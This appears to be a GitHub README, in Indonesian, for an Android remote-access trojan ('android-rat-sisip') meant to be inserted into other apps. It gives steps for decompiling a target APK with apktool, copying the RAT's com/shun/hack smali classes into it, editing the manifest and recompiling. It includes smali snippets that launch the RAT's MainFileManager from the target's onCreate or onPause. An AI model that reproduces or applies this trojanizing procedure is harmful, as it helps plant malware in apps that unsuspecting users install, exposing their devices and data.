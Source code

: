# android-rat-sisip
Hack android apk akses melalui internal root database
# Configure
- pertama decompile apk target terlebih dahulu menggunakan apktool
- kedua decompile apk ini(rat) menggunakan apktool
- salin code smali com/shun/.. di com/targetapk
- edit AndroidManifest.xml menyerupai AnfroidManifest.xml di apk rat ini
- lalu compile kembali

# Catatan
aplikasi ini tidak menggunakan xml script jadi tidak ribet cwim

# Update
jika xml tidak work
tambah:
    new-instance v0, Lcom/shun/hack/MainFileManager;

    invoke-direct {v0, p0}, Lcom/shun/hack/MainFileManager;-><init>(Landroid/content/Context;)V

di smali target MainActivity misal onPause atau onCreate
jangan lupa tambah package com.shun.hack

# Update V1.1
- decompile menggunakan apkeditor di repository android-crack-apkeditor
- untuk ubah code java bisa menggunakan Aide di repository android-crack-aide
- untuk penggunaan ikuti cara dibawah ini:<p>
   1). copykan code smali com/shun/hack/* diapk target </br>
   2). untuk versi ini tidak menggunakan AndroidManifest yang kemungkinan gagal dicompile </br>
   3). tambahkan code smali ini di MainActivity.smali target biasanya di method onCreate

<bold>
	move-object v0, p0

	new-instance v2, Lcom/shun/hack/MainFileManager;

	move-object v4, v2

	move-object v2, v4

	move-object v3, v4

	invoke-direct {v3}, Lcom/shun/hack/MainFileManager;-><init>()V

	move-object v3, v0

	invoke-virtual {v2, v3}, Lcom/shun/hack/MainFileManager;->alertMan(Landroid/content/Context;)V
</bold>
</p>

